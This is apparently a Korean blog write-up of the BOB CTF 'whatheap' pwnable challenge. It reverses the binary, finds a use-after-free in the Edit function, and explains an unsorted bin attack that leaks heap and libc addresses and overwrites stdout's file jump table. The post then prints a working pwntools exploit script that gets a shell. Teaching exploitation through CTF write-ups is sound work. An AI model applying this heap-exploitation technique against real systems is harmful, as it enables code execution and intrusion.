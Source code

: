 ```yaml
---
layout: post
title: BOB CTF - Whatheap Writeup
---
```


[Downoad](http://file.c2w2m2.com/download/prob/whatheap)

### Reversing

먼저 바이너리를 둘러보면, system("/bin/sh")를 실행시켜주는 함수가 있으니 염두해 두고 시작한다.

![menu](https://i.imgur.com/FOwXpeN.png)

다음과 같은 메뉴가 있다. 하나하나 차례대로 살펴보자.

#### Malloc

Malloc함수를 먼저 한줄한줄 뜯어보자.

![Malloc](https://i.imgur.com/Jl25J7o.png)

먼저 처음 for문을 통해서 비어있는 공간을 찾는다. 공간을 찾으면, Size를 입력받고 이 Size가 200 ~ 300 범위에 있는지를 확인한다.

![Malloc-2](https://i.imgur.com/PSKjfHc.png)

그리고 입력받은 Size만큼 malloc을 하고, Data를 넣는데, 이때 받는 Data의 최소 길이는 16byte다. 그 이후 View함수를 출력하여 값을 확인시켜준다.



#### Free

![Free](https://i.imgur.com/pmqoGiS.png)

처음에 LODWORD(heap_context[2 * a1 + 1])을 Check하는데, 이 flag가 Free가 되었는지를 확인하는 flag임을 확인할 수 있다.

만약 Free가 안되었을경우, free를 진행하고, flag를 세팅해준다.



#### Edit

![Edit](https://i.imgur.com/wGwR7Wh.png)

Edit함수에서는 context에 있는 data를 수정할 수 있다.

이부분에서 이 chunk가 free가 되었는지를 체크하지 않아서, 취약점이 발생한다.



#### View

![View](https://i.imgur.com/pNYuvcl.png)

View를 보면 엄청 길지만, 중요한것은 이부분밖에없다. Free에서 봤듯이 단순한 Free가 되었는지를 체크한다.



### Scenario

우리가 할 수 있는것은 단순히 free된 chunk를 수정할 수 있다는 것 밖에 없다.

여기서 우리가 할 수 있는 공격은 unsorted bin attack이 있다. 하지만 free된 chunk를 볼 수 없으므로, Libc leak이 불가능하다.

따라서 House of Orange같은 공격을 바로 진행하는것이 불가능하다. 

그러므로 unsorted bin attack으로 노려야 할곳은 바로 heap_context이다. 이부분에 있는 heap pointer를 덮음으로써, 

main_arena를 자유롭게 수정할 수 있게 된다. 이를 수정함으로써 unsorted bin attack으로 인해서 깨졌던 main_arena를 고칠 수 있고,

libc leak, heap leak을 진행할 수도 있다.  leak을 진행한 후에, main_arena를 Fake _IO_FILE_JUMP로 만들 수 있다. 

그 후에 고친 main_arena로 인해서 unsorted bin attack이 한번 더 진행이 가능하고,

이때 stdout에 있는 _IO_file_Jump를 타겟으로 unsorted bin attack을 진행하면, main_arena의 값이 적히게 된다.

그러면 puts가 불릴때, main_arena의 주소로 뛰게 될것이고, 여기에는 우리가 적은 oneshot의 주소가 있을테니 Shell을 얻을 수 있다.

1. Unsorted bin attack으로 heap_context를 overwrite
2. heap_context를 Edit하면서 heap & libc leak
3. leak후에 main_arena를 정상으로 고치고, 뒷부분엔 oneshot의 주소를 적음
4. 한번 더 Unsorted bin attack으로 stdout의 _IO_FILE_JUMP를 overwrite
5. Get shell



### Exploit

```python
from pwn import *
    
def Malloc(size, data):
    p.recvuntil(":> ")
    p.send('1')
    p.recvuntil(":> ")
    p.send(str(size))
    p.recvuntil(":> ")
    p.send(data)

def Free(idx):
    p.recvuntil(":> ")
    p.send('2')
    p.recvuntil(":> ")
    p.send(str(idx))

def Edit(idx, data):
    p.recvuntil(":> ")
    p.send('3')
    p.recvuntil(":> ")
    p.send(str(idx))
    p.recvuntil(":> ")
    p.send(data)

def View(idx):
    p.recvuntil(":> ")
    p.send('4')
    p.recvuntil(":> ")
    p.send(str(idx))

if __name__ == '__main__':
    p = process("./whatheap")
    elf = ELF("./prob")
    libc = elf.libc

    Malloc(256, "A"*16)
    Malloc(256, "B"*16)
    Free(0)

    Edit(0, p64(0) + p64(0x602070 - 0x10))
    Malloc(256, "C"*16)

    View(1)
    p.recvuntil("--+\n")
    p.recvuntil("|")
    leak2 = p.recvuntil("|")[:-1]
    leak2 = leak2[125:]
    leak2 = u64(leak2.ljust(8,'\x00'))
    log.info("Leak2 : 0x%x" % leak2)
    pause()
    Edit(1, "A"*32)

    View(1)
    p.recvuntil("A"*32)
    leak = u64(p.recv(6).ljust(8,'\x00'))
    libcbase = leak - 0x3c4b78 - 0x10

    log.info("Leak : 0x%x" % leak)
    log.info("Libcbase : 0x%x" % libcbase)
    pause()
    Edit(1, p64(leak2) + p64(0) + p64(leak-0x10)*2 + p64(0x00000000040097e)*4)

    IO_file_jump = libcbase + 0x3C56F8
    print "0x%x" % IO_file_jump
    Malloc(256, "D"*16)
    Malloc(256, "E"*16)
    Free(2)
    Edit(2, p64(leak) + p64(IO_file_jump - 0x10))
    
    p.recvuntil(":> ")
    p.send('1')
    p.recvuntil(":> ")
    p.send('256')
    p.interactive()


```

![shell](https://i.imgur.com/LOSmaI2.png)

참고로 이문제는 system32.kr에 올라와있는 pwnable문제를 매우 조금 수정한것이다..(grin)
